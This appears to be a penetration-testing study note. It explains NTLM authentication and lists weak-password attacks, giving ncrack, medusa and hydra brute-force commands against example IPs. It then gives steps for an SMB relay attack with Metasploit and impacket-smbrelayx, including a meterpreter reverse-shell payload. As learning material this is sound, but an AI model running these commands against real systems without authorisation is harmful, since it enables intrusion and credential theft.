 > Vulnerabilities on the target system and how to exploit them

This is usually achieved through vulnerability assessment (which can be done through scanners like: `nessus`, `nexpose` etc.)

Exploits can usually be devides into 3 categories
- client-side exploit (usually requires interaction from the user)
- remote exploits, attack services listening on the network (no interaction required)
- local privilege escalation

## Basic information

### NTLM

NT Lan Manager, authentication system used by windows in the past and still today (newer versions  or Kerberos). It uses 3 message types in order to establish authentication:

- 1: negotiation --> client2server contains username
- 2: challenge --> server2client contains challenge
- 3: response --> client2server encrypt challenge with hash of user pw

Crypto schemes used with NTLM
- LM: `ASCII` capital chars and `DES` (known ciphertext: `KGS!@#$%`)
- NTLM: `UNICODE` chars and `MD4`
- NTLMv2: including timestamps, making every request unique - also per resource specific information is included (username, servername of the requested service). Cracking infeasible IF password is strong enough

Windows Vista and above use at least `NTLMv2`

## Low hanging fruits

> Usually default or weak passwords, accessible config files, misconfigured servers or software, bad permissions, null sessions, unpatched systems and so on

### Cracking weak passwords

- using `ncrack`

```bash
ncrack <servicename>://<target>:<optionalPort> <servicename>://<target>:<optionalPort> # multiple also possible

ncrack ssh://10.10.10.66
# OR
ncrack 10.10.10.10,15 -p ssh:50,telnet # global definiton of services to scan with 2 ips to check
```

- using `medusa`

```bash
medusa -h 192.168.102.149 -M telnet -U username.lst -P password.lst
```

- using `hydra`

```bash
hydra -l <loginName> -P <pathToWordlist> ssh://10.10.10.66
```

### Screening websites

> Making screenshots of urls

```bash
eyewitness --prepend-https -f <path2FileWithURLs>  # optional --active-scan but its loud
```

Creates a screenshot of the website and also provides other information (IP, hostname etc.)

## SMB relay attack

> Intercepting an SMB connection via MITM and relaying the request while sitting on the connection (should work with v1/v2)

![[smb_relay_ntlm1.png]]

### 0. Prerequisites

- victim must have admin privileges on the target
- MITM position of the attacker
- `ntlm` must be in use

### 1. exploit using metasploit 

```bash
msfconsole
> use exploit/windows/smb/smb_relay
> show options  # and set them accordingly
```

MITM must be established beforehand! ([[Sniffing and MITM#MITM tools]])

### 0. Prerequisites (impacket)

- meterpreter payload with reverse shell (`msfvenom`)
- running handler in metasploit

### 1. Start smbrelayx

```bash
impacket-smbrelayx -h <targetHost> -e <pathToPayload>
```

OR for an interactive session run:

```bash
impacket-smbrelayx -h <targetHost> -socks

proxychains -q impacket-smbexec <domain>/<user>@<targetHost>  # domain and user is display in smbrelayx
```

the interactive session doesn't require meterpreter handler.